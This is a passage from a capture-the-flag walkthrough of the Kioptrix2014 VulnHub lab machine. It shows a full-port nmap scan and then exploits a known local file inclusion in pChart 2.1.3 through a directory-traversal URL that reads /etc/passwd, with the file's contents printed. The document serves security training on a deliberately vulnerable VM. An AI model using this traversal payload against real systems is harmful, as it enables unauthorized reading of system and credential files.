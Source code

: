 # Kioptrix2014  

**https://www.vulnhub.com/entry/kioptrix-2014-5,62/**  

### NMAP  

kali@kali:~$ nmap 192.168.1.59 -p1-65535 -A  

>Starting Nmap 7.60 ( hxxps://nmap.org ) at 2018-05-04 20:34 CEST  
>Nmap scan report for kioptrix2014.home (192.168.1.59)  
>Host is up (0.00094s latency).  
>Not shown: 65532 filtered ports  
>PORT     STATE  SERVICE VERSION  
>22/tcp   closed ssh  
>80/tcp   open   http    Apache hxxpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)  
>|_hxxp-title: Site doesn't have a title (text/html).  
>8080/tcp open   http    Apache hxxpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)  
>
>Service detection performed. Please report any incorrect results at hxxps://nmap.org/submit/ .  
>Nmap done: 1 IP address (1 host up) scanned in 131.62 seconds  

### HTTP PORTS  

Port 80:  
>CONTENT="5;URL=pChart2.1.3/index.php  

Port 8080:  
>403 Forbidden  

### PORT 80  

After so much try harding, I start looking for known vulnerabilities...  
(I should've started there... T.T')  

*https://www.exploit-db.com/exploits/31173/*  

There's a XSS and LFI. Not much to do with the XSS so:  

hxxp://192.168.1.59/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd  

>\# $FreeBSD: release/9.0.0/etc/master.passwd 218047 2011-01-28 22:29:38Z pjd $  
>\#  
>root:*:0:0:Charlie &:/root:/bin/csh  
>toor:*:0:0:Bourne-again Superuser:/root:  
>daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin  
>operator:*:2:5:System &:/:/usr/sbin/nologin  
>bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin  
>tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin  
>kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin  
>games:*:7:13:Games pseudo-user:/usr/games:/usr/sbin/nologin  
>news:*:8:8:News Subsystem:/:/usr/sbin/nologin  
>man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin  
>sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin  
>smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin  
>mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin  
>bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin  
>proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin  
>_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin  
>_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin  
>uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico  
>pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin  
>www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin  
>hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin  
>nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin  